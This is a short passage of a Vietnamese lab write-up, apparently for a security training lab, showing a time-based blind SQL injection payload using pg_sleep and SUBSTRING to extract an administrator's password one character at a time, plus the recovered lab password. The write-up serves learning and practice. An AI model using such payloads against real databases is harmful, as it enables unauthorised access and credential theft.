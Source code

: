 ![image-68](https://gist.github.com/user-attachments/assets/e2222a73-ef82-4440-ae52-65ee4a2b3d8f)

Sau đó vẫn như các bài trên tìm password

Payload:`'||(SELECT CASE WHEN (2=2) THEN pg_sleep(1) ELSE pg_sleep(0) END FROM users WHERE username='administrator' AND SUBSTRING(password, 1, 1)='a') -- -`

![image-69](https://gist.github.com/user-attachments/assets/b3446134-1cc4-406d-9879-b35a8e6652be)

Chữ cái đầu là số 3, cứ vậy tiếp tục tìm các chữ cái còn lại

![image-70](https://gist.github.com/user-attachments/assets/50921af9-5cbe-4672-930d-8df0847d815b)


Password:**3qgwyp0g9bdncslnerut**

![image-71](https://gist.github.com/user-attachments/assets/d75f7545-72aa-4692-a40d-4d3ca5ee6858)